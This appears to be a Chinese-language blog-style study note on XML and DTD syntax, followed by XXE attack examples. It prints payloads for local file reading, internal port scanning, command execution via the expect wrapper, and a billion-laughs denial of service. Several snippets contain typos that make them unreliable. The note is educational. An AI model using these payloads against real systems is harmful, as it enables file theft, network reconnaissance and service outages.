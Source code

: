 # **XXE学习**

---

>~~极客的XXE题真的给我整懵了~~<br>
整好面试结束了也能不用忙着赶进度了~~(真实)~~

## **XML学习**

### **XML介绍**

XXE怎么说也是基于XML的嘛，先对XML做一个大致学习。

>XML是指*可扩展标记语言*（Extensible Markup Language）用于传输和存储数据。XML的标签及内容允许作者自己定义，是独立于软件和硬件信息传输工具。<br>

>而同为标记语言的HTML则是用来显示数据

XML 应用于 web 开发的许多方面，常用于简化数据的存储和共享。<br>
比如一个个人博客，总不能每次需要添加文章的时候都去修改html源文件吧。为了实现动态显示，可以通过js脚本去读取外部XML文件以达到更新网页的目的。所以说用XML进行数据传输是非常方便的，这也就是为什么网站要用XML传输数据的原因
###  **XML的语法规则**

- XML 文档必须有一个根元素
- XML 元素都必须有一个关闭标签
- XML 标签对大小敏感
- XML 元素必须被正确的嵌套
- XML 属性值必须加引导
<br>


```
<?xml version="1.0" encoding="UTF-8" >  <!--XML 声明-->
<girl age="18">　　<!--自定的根元素girl;age属性需要加引导-->
<hair>长头发</hair>　　<!--自定义的4个子元素，即girl对象的属性-->
<eye>大眼睛</eye>
<face>可爱的脸庞</face>
<summary>可爱美丽的女孩</summary>
</girl>　　<!--根元素的闭合-->
```

结构即为上面所示<br>
第一行是XML声明，定义了XML的版本和所用的编码<br>
`<?xml version="1.0" encoding="UTF-8" >`<br>
下一行是根元素<br>
`<girl age="18">`<br>
再下方就是子元素<br>
`<eye>大眼睛</eye>`<br>
`<face>可爱的脸庞</face>`<br>
`<summary>可爱美丽的女孩</summary>`<br>
最后一行定义根元素的结尾<br>
`</girl>`<br>

一些字符的实体引用
- `&lt;` = <
- `&gt` = >
- `&amp` = &
- `&quot` = "
- `&apos` = '
### **DTD的使用**

DTD(文档类型定义)的作用是定义XML文档的的合法构建模块，它使用一系列的合法元素来定义文档结构，可以被成行的声明于XML文档中，也可做为一个外部引用。直接引用一个例子，如:
```
<!--XML声明-->
<?xml version="1.0"?> 
<!--文档类型定义-->
<!DOCTYPE note [  　　<!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)>  <!--定义note元素有四个元素-->
<!ELEMENT to (#PCDATA)>     <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)>   <!--定义from元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)>   <!--定义head元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)>   <!--定义body元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

以上 DTD 解释如下：

- !DOCTYPE note (第二行)定义此文档是 note 类型的文档。

- !ELEMENT note (第三行)定义 note 元素有四个元素："to、from、heading,、body"

- !ELEMENT to (第四行)定义 to 元素为 "#PCDATA" 类型

- !ELEMENT from (第五行)定义 from 元素为 "#PCDATA" 类型

- !ELEMENT heading (第六行)定义 heading 元素为 "#PCDATA" 类型

- !ELEMENT body (第七行)定义 body 元素为 "#PCDATA" 类型


`<!DOCTYPE 根元素 [元素声明]>`
为内部的DOCTYPE声明<br>
`<!DOCTYPE 根元素 SYSTEM "文件名">`
为外部文档声明<br>
如果DTD在XML文档内部，则使用内部声明。如在外部，则需要使用外部声明进行包含

`<!ELEMENT 元素名称 类别>`
或
`<!ELEMENT 元素名称 (元素内容)>`为元素声明

PCDATA的意思是被解析的字符数据。

声明规则是

- 空元素通过类别关键字EMPTY进行声明<br>
`<!ELEMENT 元素名称 EMPTY>`
- 只有PCDATA的元素用(#PCDATA)进行声明<br>
`<!ELEMENT 元素名称 (#PCDATA)>`
- 带有任何内容的元素通过ANY进行声明<br>
`<!ELEMENT 元素名称 ANY>`
- 带有子元素的元素通过圆括号中子元素进行声明，子元素必须按照主元素声明中的顺序出现，且子元素也必须被声明，子元素也可以拥有子元素。<br>
`<!ELEMENT 元素名称 (子元素名称 1,子元素名称 2,.....)>`
- 声明只出现一次的元素
`<!ELEMENT 元素名称 (子元素名称)>`
- 声明最少出现一次的元素
`<!ELEMENT 元素名称 (子元素名称+)>`
- 声明出现零次或多次的元素
`<!ELEMENT 元素名称 (子元素名称*)>`
- 声明出现零次或一次的元素
`<!ELEMENT 元素名称 (子元素名称?)>`
- 声明非什么即什么的类容，即以下例子主元素中需要出现message或者body中的一个
`<!ELEMENT 元素名称 (to,from,header,(message|body))>`
- 声明混合型内容，和上面一条类似
`<!ELEMENT 元素名称 (#PCDATA|to|from|header|message)*>`

## **XXE攻击**

### **XXE攻击思路及实例**

XXE的攻击思路主要是利用DTD用用外部实体导致的漏洞，譬如任意文件读取。
```
<?xml version="1.0"?>
<!DOCTYPE hack [
<!ENTITY xxe SYSTEM "file:///etc/password">
]>

<hack>&xxe;</hack>
```
这段代码即是将 ***file:///etc/password*** 的内容赋值给外部实体xxe<br>
如果`<hack>`标签能够回显，则会显示 ***file:///etc/password*** 中的内容。

又譬如内网扫描
```
<?xml version="1.0"?>
<!DOCTYPE hack [
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>

<hack>&xxe;</hack>
```
这段代码是利用返回的报错信息去判断是否xml获取了相关的数据流，以此判断该端口是否开放。

在对方php安装了expect扩展的情况下，还可以进行命令执行，具体代码如下
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls">
]>
<x>&f;</x>
```
这段代码是利用expect扩展进行命令执行。原理还没了解过...先搁这儿放着

再比如DDOS
```
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```
上述代码是在内存中生成十亿个"lol"的ddos攻击。(也没有复现...怕炸- -)

当没有回显时，还可通过构建带外通道oob，将回显结果回显在自己服务器下。<br>
原理有点懵，也没复现成功...就大致讲下流程，问完师傅再来补充<br>
通过xxe注入，从自己服务器下读取恶意dtd文件，然后执行dtd文件中payload读取想要读取的文件，再带着回显内容返回自己服务器下，完成攻击。

